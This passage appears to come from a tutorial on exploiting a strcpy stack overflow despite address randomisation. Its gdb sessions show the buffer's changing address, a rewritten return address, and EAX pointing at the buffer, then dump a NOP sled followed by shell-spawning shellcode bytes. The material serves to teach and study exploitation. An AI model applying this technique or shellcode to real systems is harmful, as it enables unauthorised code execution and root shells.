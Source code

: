 When restarting the same executable, at the first breakpoint, we notice the address change: the buffer concerned is now at 0xBF999AE0:

```bash
(gdb) run < paquet_mal
Breakpoint 1, here_is_the_bug (Browser=bfff0xf3a7) at srv.c:32
32 }

(gdb) print &buffer
$2 = (char (*)[150]) 0xbf999ae0
```

It is therefore no longer possible to use so-called classic techniques to redirect the execution flow. At best with this technique, the attacker will cause a DoS (Denial Of Service).

Despite the higher security level that this solution provides, we found while studying it that this protection could be bypassed using indirect means...

At the second breakpoint, placed before returning from the function and after rewriting the return address (the saved eip displayed by gdb, 0xBFFFf3A7 is none other than the one we rewrote), we analyze the register values:

```bash
(gdb) info frame
Stack level 0, frame at 0xbf999b90:
eip = 0x804859e in here_is_the_bug (srv.c:32); saved eip 0xbffff3a7
called by frame at 0xbf999b94
source language c.
Arglist at 0xbf999b88, args: Browser=0xbffff3a7
Locals at 0xbf999b88, Previous frame's sp is 0xbf999b90
Saved registers:
ebp at 0xbf999b88, eip at 0xbf999b8c

(gdb) info registers
eax 0xbf999ae0 -1080452384
ecx 0xbf999bbd -1080452163
```

The value contained in the EAX register is... the address of our buffer! This property is due to the use of the strcpy function. Indeed, if we place ourselves at a lower level (assembly code), the different addresses and values used are placed in the appropriate registers, then a jump to the code of the strcpy function is subsequently performed. Since this function cannot do without the destination address of the buffer, it is logical that it should be placed in an accessible register (here EAX).

Let's verify the hypothesis that the EAX address indeed contains our instruction sequence previously placed in memory (sequence of NOP then shellcode):

```bash
(gdb) x/5bi 0xbf999ae0
0xbf999ae0: nop
0xbf999ae1: nop
0xbf999ae2: nop
0xbf999ae3: nop
0xbf999ae4: nop

(gdb) x/100bx 0xbf999ae0
0xbf999ae0: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999ae8: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999af0: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999af8: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999b00: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999b08: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xbf999b10: 0x90 0x90 0x90 0x90 0x90 0x31 0xc0 0x31
0xbf999b18: 0xdb 0x31 0xc9 0xb0 0x46 0xcd 0x80 0x31
0xbf999b20: 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68 0x68
0xbf999b28: 0x2f 0x62 0x69 0x6e 0x89 0xe3 0x8d 0x54
0xbf999b30: 0x24 0x08 0x50 0x53 0x8d 0x0c 0x24 0xb0
```